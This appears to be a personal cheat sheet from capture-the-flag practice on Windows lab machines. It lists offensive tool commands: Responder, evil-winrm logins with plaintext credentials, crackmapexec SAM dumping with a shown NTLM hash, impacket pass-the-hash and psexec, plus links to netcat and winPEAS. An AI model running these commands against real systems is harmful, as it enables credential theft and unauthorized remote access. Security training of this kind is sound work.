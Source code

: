 # Tools / ORDENAR ESTO


## mimikatz
Mimikatz is a hacking tool that extracts Windows authentication credentials from memory, including passwords and hashes. It can then use these credentials to gain unauthorized access, escalate privileges, and perform further attacks.



## Responder
`sudo responder -I tun0`

## Evil-Winrm
```
evil-winrm -i [TARGET] -u maya -p m4y4ngs4ri
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

## crackmapexec
`crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam`
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...


## impacket
- <https://github.com/fortra/impacket>

```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"




impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
# PsExec is a light-weight telnet-replacement that lets you execute processes on other systems
# https://learn.microsoft.com/en-us/sysinternals/downloads/psexec




```

## nc
https://github.com/int0x33/nc.exe/blob/master/nc64.exe


## winPEAS
winPEASx64.exe
- <https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation>